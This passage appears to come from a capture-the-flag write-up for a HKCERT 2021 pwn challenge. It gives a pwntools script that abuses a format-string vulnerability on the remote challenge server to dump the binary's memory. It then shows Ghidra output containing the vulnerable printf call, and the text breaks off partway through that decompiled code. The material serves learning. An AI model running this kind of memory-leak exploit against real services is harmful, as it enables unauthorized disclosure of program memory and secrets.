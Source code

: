 I wrote a script to dump the source file and pass it to my teammate to reverse it.

Full dump script:
```python=
from pwn import *

TARGET = './'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 28132
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
#elf = ELF(TARGET)

#---

output = b''
addr = 0x400000

def dump(addr):
    sleep(0.1)
    p = remote(HOST, PORT)
    p.sendline(b"%7$s||||" + p64(addr))
    text = p.recvuntil("||||", timeout=5000)[:-4]
    p.close()
    print(f"trying {hex(addr)} : {str(text)} {len(text)}")
    return text
    
myfile = open("dump", "ab")
while True:
    try:
        if addr > 0x406000:
            break

        data = dump(addr)
        if len(data) == 0:
            myfile.write(b'\x00')
            addr += 1
        else:
            myfile.write(data)
            addr += len(data)
    except  Exception as e:
        continue


#p.interactive()
```
### Step 2: Reverse

Now that we have the binary, we can use decompilers like ghidra to look at the original code. There are 3 functions that interest us the most:

```c
undefined8 FUN_0040142f(void)

{
  int iVar1;
  char local_28 [32];
  
  FUN_004013d9(local_28,0x1f);
  iVar1 = FUN_00401192(local_28);
  if (iVar1 == 1) {
    FUN_004012c8();
  }
  else {
    printf(local_28);
```